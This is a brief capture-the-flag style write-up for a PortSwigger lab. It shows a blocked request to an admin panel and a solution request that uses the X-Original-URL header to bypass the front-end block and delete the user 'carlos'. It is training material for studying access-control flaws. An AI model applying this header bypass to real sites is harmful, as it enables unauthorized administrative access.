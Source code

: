 # [Lab: URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)

This website has an unauthenticated admin panel at  `/admin`, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the  `X-Original-URL`  header.

To solve the lab, access the admin panel and delete the user  `carlos`.

## Analysis

request:

```http
GET /admin HTTP/1.1
```

- response:

  ```http
  HTTP/1.1 403 Forbidden
  Content-Type: application/json; charset=utf-8
  Connection: close
  Content-Length: 15

  "Access denied"
  ```

## Solution

```http
GET /?username=carlos HTTP/1.1
X-Original-URL: /admin/delete
```
